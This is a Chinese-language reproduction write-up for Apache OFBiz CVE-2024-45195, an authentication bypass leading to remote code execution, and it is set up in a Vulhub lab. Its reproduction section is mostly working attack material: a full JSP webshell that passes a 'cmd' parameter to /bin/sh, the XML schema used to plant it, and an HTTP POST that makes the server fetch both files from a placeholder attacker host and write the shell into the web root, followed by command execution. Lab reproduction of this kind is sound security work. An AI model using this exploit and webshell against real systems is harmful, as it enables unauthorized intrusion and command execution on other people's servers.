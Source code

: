 # Apache OFBiz 身份验证绕过导致远程代码执行 CVE-2024-45195

## 漏洞描述

Apache OFBiz 是一个开源企业资源规划（ERP）系统。它提供了一套企业应用程序，集成并自动化企业的许多业务流程。

该漏洞是由于之前漏洞（CVE-2024-32113、CVE-2024-36104 和 CVE-2024-38856）未完全修复所导致。在 Apache OFBiz 版本 18.12.16 之前，开发人员对这些先前的问题进行了修复，但控制器视图地图状态不同步的根本问题仍然存在。这使得攻击者能够绕过身份验证并访问敏感的仅限管理员的视图地图。

参考链接：

- https://github.com/apache/ofbiz-framework/commit/ab78769c2d
- https://github.com/apache/ofbiz-plugins/commit/8b95fe6fa
- https://www.rapid7.com/blog/post/2024/09/05/cve-2024-45195-apache-ofbiz-unauthenticated-remote-code-execution-fixed/

## 漏洞影响

```
Apache OFBiz < 18.12.16
```

## 网络测绘

```
app="Apache_OFBiz"
```

## 环境搭建

Vulhub 执行以下命令启动一个 Apache OfBiz 18.12.15 服务器：

```
docker compose up -d
```

在等待数分钟后，访问 `https://your-ip:8443/accounting` 查看到登录页面，说明环境已启动成功。

如果非本地 localhost 启动，Headers 需要包含 `Host: localhost`，否则报错：

```
ERROR MESSAGE
org.apache.ofbiz.webapp.control.RequestHandlerException: Domain your-ip not accepted to prevent host header injection. 
```

![](images/Apache%20OFBiz%20身份验证绕过导致远程代码执行%20CVE-2024-45195/image-20240918161735890.png)

## 漏洞复现

首先在服务器 `<attacker-ip>` 上部署恶意 XML 文件和 CSV 文件。

第一个文件是 `rceschema.xml`，此 XML schema 文件定义了恶意 JSP 的结构：

```
<data-files xsi:noNamespaceSchemaLocation="http://ofbiz.apache.org/dtds/datafiles.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
    <data-file name="rce" separator-style="fixed-length" type-code="text" start-line="0" encoding-type="UTF-8">
        <record name="rceentry" limit="many">
            <field name="jsp" type="String" length="605" position="0"></field>
        </record>
    </data-file>
</data-files>
```

第二个文件是 `rcereport.csv`，此 CSV 文件包含实际的 JSP 代码：

```html
<%@ page import='java.io.*' %><%@ page import='java.util.*' %><h1>Ahoy!</h1><br><% String getcmd = request.getParameter("cmd"); if (getcmd != null) { out.println("Command: " + getcmd + "<br>"); String cmd1 = "/bin/sh"; String cmd2 = "-c"; String cmd3 = getcmd; String[] cmd = new String[3]; cmd[0] = cmd1; cmd[1] = cmd2; cmd[2] = cmd3; Process p = Runtime.getRuntime().exec(cmd); OutputStream os = p.getOutputStream(); InputStream in = p.getInputStream(); DataInputStream dis = new DataInputStream(in); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine();}} %>,
```

然后发送以下请求：

```
POST /webtools/control/forgotPassword/viewdatafile HTTP/1.1
Host: localhost:8443
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 241
Content-Type: application/x-www-form-urlencoded

DATAFILE_LOCATION=http://<attacker-ip>/rcereport.csv&DATAFILE_SAVE=./applications/accounting/webapp/accounting/index.jsp&DATAFILE_IS_URL=true&DEFINITION_LOCATION=http://<attacker-ip>/rceschema.xml&DEFINITION_IS_URL=true&DEFINITION_NAME=rce
```

![](images/Apache%20OFBiz%20身份验证绕过导致远程代码执行%20CVE-2024-45195/image-20240918162601513.png)

该请求通过利用 viewdatafile 视图地图将恶意 JSP 文件写入 Web 根目录，从而利用了该漏洞实现远程代码执行。

在 JSP webshell 被写入后，通过 `https://your-ip:8443/accounting/index.jsp?cmd=id` 即可执行任意命令：

![](images/Apache%20OFBiz%20身份验证绕过导致远程代码执行%20CVE-2024-45195/image-20240918162620929.png)

## 漏洞修复

升级至 18.12.16 及以上版本。
